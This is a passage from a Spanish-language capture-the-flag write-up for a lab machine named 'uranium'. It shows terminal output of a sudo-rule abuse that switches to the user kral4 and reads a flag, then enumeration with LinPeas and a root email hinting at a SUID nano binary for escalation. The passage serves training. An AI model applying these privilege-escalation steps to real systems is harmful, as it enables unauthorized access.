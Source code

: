```bash
[sudo] password for hakanbey: 
Matching Defaults entries for hakanbey on uranium:
    env_reset,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hakanbey may run the following commands on uranium:
    (kral4) /bin/bash
hakanbey@uranium:~$ 
```

¡Así que ahora podemos hacer `sudo` a kral4 y leer la flag user_2!

```bash
hakanbey@uranium:~$ sudo -u kral4 /bin/bash
kral4@uranium:~$ id
uid=1001(kral4) gid=1001(kral4) groups=1001(kral4)
kral4@uranium:~$ cat /home/kral4/user_2.txt 
thm{[REDACTED]}
```

## Root

Después de usar `LinPeas` encontré la carpeta de correo de nuestro usuario, con un correo interesante.

```bash
kral4@uranium:/home/kral4$ cd /var/mail
kral4@uranium:/var/mail$ ls
hakanbey  kral4
kral4@uranium:/var/mail$ cat kral4 
From root@uranium.thm  Sat Apr 24 13:22:02 2021
Return-Path: <root@uranium.thm>
X-Original-To: kral4@uranium.thm
Delivered-To: kral4@uranium.thm
Received: from uranium (localhost [127.0.0.1])
	by uranium (Postfix) with ESMTP id C7533401C2
	for <kral4@uranium.thm>; Sat, 24 Apr 2021 13:22:02 +0000 (UTC)
Message-ID: <841530.943147035-sendEmail@uranium>
From: "root@uranium.thm" <root@uranium.thm>
To: "kral4@uranium.thm" <kral4@uranium.thm>
Subject: Hi Kral4
Date: Sat, 24 Apr 2021 13:22:02 +0000
X-Mailer: sendEmail-1.56
MIME-Version: 1.0
Content-Type: multipart/related; boundary="----MIME delimiter for sendEmail-992935.514616878"

This is a multi-part message in MIME format. To properly display this message you need a MIME-Version 1.0 compliant Email program.

------MIME delimiter for sendEmail-992935.514616878
Content-Type: text/plain;
        charset="iso-8859-1"
Content-Transfer-Encoding: 7bit

I give SUID to the nano file in your home folder to fix the attack on our  index.html. Keep the nano there, in case it happens again.

------MIME delimiter for sendEmail-992935.514616878--
```
Lo que sabemos hasta ahora, el usuario `root` envió un correo electrónico a `kral4` diciendo que "si recibimos un ataque de nuevo, le daré `SUID` al binario `nano` en su carpeta home".
